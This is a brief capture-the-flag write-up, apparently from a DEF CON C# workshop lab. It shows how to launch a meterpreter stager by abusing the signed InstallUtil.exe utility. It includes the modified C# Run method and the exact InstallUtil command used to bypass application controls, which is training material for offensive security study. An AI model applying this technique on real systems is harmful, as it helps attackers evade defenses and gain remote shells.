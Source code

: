 ## Lab 3


### CTF 2: Modify Exercise 2’s source code to obtain a meterpreter shell by abusing InstallUtil.exe
The goal of this is to "live off the land" using a legitimate signed windows utility to load our payload. 

This was accomplished by modifying the run Method, and pointing the process start method to the custom stager serving the meterpreter payload used in Lab 2:

```c#
public static void Run()
    {
        //Process.Start("notepad.exe");
        Process.Start("C:\\Users\\User\\Desktop\\defcon27_csharp_workshop-master\\Labs\\lab2\\2.exe");
	Console.ReadKey();
    }
```

And then using the following command:
```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=/LogToConsole=false /U 2.exe
```

